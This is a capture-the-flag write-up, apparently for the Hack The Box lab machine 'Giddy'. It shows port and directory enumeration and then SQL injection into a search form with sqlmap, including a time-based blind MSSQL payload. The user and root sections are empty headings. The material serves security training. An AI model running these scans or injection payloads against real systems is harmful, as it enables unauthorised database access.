

# Giddy
## Enumeration
- `nmap`
```
└─$ nmap -Pn -F 10.10.10.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-08 17:16 BST
Nmap scan report for 10.10.10.104 (10.10.10.104)
Host is up (0.12s latency).
Not shown: 97 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 3.96 seconds
```
```
└─$ nmap -Pn -p80,443,3389,5985 -sC -sV 10.10.10.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-08 17:17 BST
Nmap scan report for 10.10.10.104 (10.10.10.104)
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2023-09-08T16:17:11+00:00; -37s from scanner time.
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Not valid before: 2023-09-07T15:57:53
|_Not valid after:  2024-03-08T15:57:53
|_ssl-date: 2023-09-08T16:17:11+00:00; -37s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -37s, deviation: 0s, median: -37s

```

- Web Server
  - Ports `80`, `443`


- `gobuster`
```
└─$ gobuster dir -u https://10.10.10.104/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,asp,aspx --no-error -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.104/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,asp,aspx
[+] Timeout:                 10s
===============================================================
2023/09/08 17:30:46 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [--> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [--> https://10.10.10.104/mvc/]
```

- `/remote`


- `/mvc`



## Foothold
- Let's try basic `SQLi` payloads
  - Searching for `a'` results in error


- Let's save request in `Burp` and send it `sqlmap`
  - `sqlmap -r sqli.req  --batch --level 5 --risk 3 --dbms mssql`
```
└─$ sqlmap -r sqli.req  --batch --level 5 --risk 3 --dbms mssql
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:57:35 /2023-09-08/

[18:57:35] [INFO] parsing HTTP request from 'sqli.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '__AntiXsrfToken' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[18:57:35] [INFO] testing connection to the target URL
[18:57:37] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[18:57:37] [INFO] testing if the target URL content is stable
...

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: __EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=c39aSrrjVegYDnshUTW+tNB6JgaUTspv/jwxhdWD0ZKSiBKYDSZRbeQS5GlfLXhYcxXgekuVXU6GOreLHWeEiD4G8Mvpnb+EmRG2dWHeiQfkd5ClbRT8iCeAS//d6Z+jJTJMnY0Uq4fG9Hhjr5oAipmU0a+aWHhjepvZRKVR4gubRNAjVlpH8QSpLXNUmiZoPBNZfyX/FVUzuI7b4QW9IHQDdcu/FSWG87eJFsqfFvtJifABxmDkFC/tEVGh0a6i6xecxTBdhQOXjxqKXCa+/QDTGUK0/x7pYNQvt+he9riq5DJX1Zi0YPKwkzKWTbfySMjS6ZKulVIColiEMOdeN9OF6duVFBGJmhHvl4Om1qZVql4/kSoPC4pS0RQdv/6H3KUlwCt3mKBCzZBFboIxWg==&__VIEWSTATEGENERATOR=7DDB321F&__EVENTVALIDATION=OX743Tzie8FvKX+QxA0p6nMLW4E2TVP/WtCN4hTZ6m1ACBF9Am3x7RjpJASqKWtG+/fs8OiDDjS40ASGZvzak7WVvvs2/D9mWRH7wBI8Ap1mb+BxjDArHPt9wTcjXzxYSkaKHq2g+rSiNKgwFxNA4g==&ctl00$MainContent$SearchTerm=' WAITFOR DELAY '0:0:5'-- UEvz&ctl00$MainContent$Button1=Search
---
[18:59:40] [INFO] testing Microsoft SQL Server
[18:59:40] [INFO] confirming Microsoft SQL Server
[18:59:42] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2022 or 11 or 2016 or 2019 or 10
web application technology: Microsoft IIS 10.0, ASP.NET 4.0.30319, ASP.NET
back-end DBMS: Microsoft SQL Server 2016
[18:59:42] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 425 times
[18:59:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.10.104'

[*] ending @ 18:59:42 /2023-09-08/
```

## User


## Root